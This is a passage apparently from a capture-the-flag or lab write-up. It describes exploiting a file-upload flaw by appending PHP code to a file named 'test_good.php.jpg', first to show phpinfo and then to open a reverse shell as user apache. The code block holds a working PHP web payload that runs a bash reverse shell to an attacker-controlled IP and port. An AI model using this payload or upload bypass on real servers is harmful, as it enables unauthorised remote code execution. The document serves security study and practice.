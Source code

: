 Then once the image was uploaded I opened it on the `/uploads` directory and saw the php information pop up!

*Achieving php RCE*

![Img](images/phpinfo.png)

I modified the above command to get a shell:

```php
echo "<?php phpinfo(); system('bash -i >& /dev/tcp/10.10.12.249/1234 0>&1');?>" >> test_good.php.jpg
```

And voilà! We get a shell as user `apache`!

*Getting a low-privileged shell*

![Img](images/apache-shell.png)
